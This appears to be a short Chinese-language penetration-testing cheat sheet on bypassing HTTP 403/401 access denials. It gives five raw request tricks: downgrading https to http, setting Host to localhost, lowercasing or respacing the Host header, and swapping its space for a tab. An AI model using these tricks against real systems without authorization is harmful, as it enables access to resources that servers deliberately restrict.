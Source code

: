 ## 403绕过总结

```shell
HTTP/1.1 403 Forbidden OR 401 Unauthorized
  Content-Length: Number
  Content-Type: text/html; charset=UTF-8
 <h1> You Don’t Have Permission To Access </h1> 
 
```

## tip-01

403
```shell
https://www.company.com/authorization-response

```

https变为http

```shell
http://www.company.com/authorization-response
```

## tip-02

Host用 localhost

```shell
GET /authorization-response HTTP/1.1 
Host: www.company.com
#重点
Host: localhost
User-Agent: Mozilla/5.0
Referer: https://previous.com/path 
Origin: https://www.company.com
```


## tip-03

Host ---> host

```shell
GET /authorization-response HTTP/1.1 
host: www.company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path 
Origin: https://www.company.com
```

## tip-04
去除空格键

```shell
GET /authorization-response HTTP/1.1
#一般Host后面是有一个空格的，这里没有
Host:www.company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path 
Origin: https://www.company.com
```

## tip-05

增加Tab键替换原有的空格键:

```shell
GET /authorization-response HTTP/1.1
#
Host:  www.company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path 
Origin: https://www.company.com
```

